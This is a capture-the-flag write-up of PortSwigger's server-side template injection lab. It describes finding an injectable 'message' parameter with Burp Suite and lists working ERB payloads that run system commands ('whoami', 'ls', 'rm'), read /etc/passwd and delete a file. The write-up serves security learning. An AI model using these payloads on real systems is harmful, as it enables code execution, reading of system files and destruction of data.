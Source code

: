 🔖 Challenge Info

    Challenge Name: Basic Server-Side Template Injection

    Category: Web Exploitation

    CTF Platform: PortSwigger

    Date Solved: 2025-05-05

📜 Challenge Description

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.
To solve the lab, review the ERB documentation to learn how to execute arbitrary Ruby code, then delete the morale.txt file from Carlos's home directory.
🔍 Recon & Exploitation Steps
🔹 Understanding the Syntax

I began by researching ERB (Embedded Ruby) syntax and how it processes template code. From the documentation, I learned:

    <%= ... %> evaluates Ruby code and outputs the result.

    <% ... %> evaluates the code silently (no output).

This is important when testing for SSTI.
🔹 Finding Injection Points

I visited the lab's web application and clicked on a product. The URL looked like this:

https://0a21007604d9d4ffaa4126020086007f.web-security-academy.net/product?productId=2

I tried injecting ERB syntax directly into the URL, such as:

<%= 7 * 7 %>

However, nothing happened — no code execution or errors were visible.
🔹 Deeper Testing Using Burp Suite

I used Burp Suite to inspect traffic between the browser and the server:

    Browsed the site normally while Burp was capturing traffic.

    Reviewed the HTTP history for interesting parameters.

    Found a request that contained a message field displaying:
    "Unfortunately this product is out of stock."

This message hinted at dynamic rendering, so I sent the request to Burp Repeater for testing.
🔹 Successful Injection

Inside Burp Repeater, I modified the message parameter:

    Test: <%= 7 * 7 %>
    ✅ Response returned 49, confirming SSTI vulnerability.

    Test: <%= system("whoami") %>
    ✅ Returned the current user name.

    Test: <%= system("ls") %>
    ✅ Listed files, including morale.txt.

    Test: <%= system("rm morale.txt") %>
    ❌ Did not delete the file.

    Test: <%= system("pwd") %>
    ✅ Returned /home/carlos.

    Test: <%= system("rm /home/carlos/morale.txt") %>
    ❌ Still did not delete the file.

🔹 Reading and Deleting the File with Ruby Functions

Since system("rm ...") wasn’t working, I switched to Ruby-native functions:

    Test: <%= File.read("/etc/passwd") %>
    ✅ Successfully read the file — confirmed file access via Ruby.

    Final Payload: <%= File.delete("morale.txt") %>
    ✅ Success! File deleted. Lab marked as solved.

🏁 Flag

(No flag was provided — solving the lab by deleting the file completes the challenge.)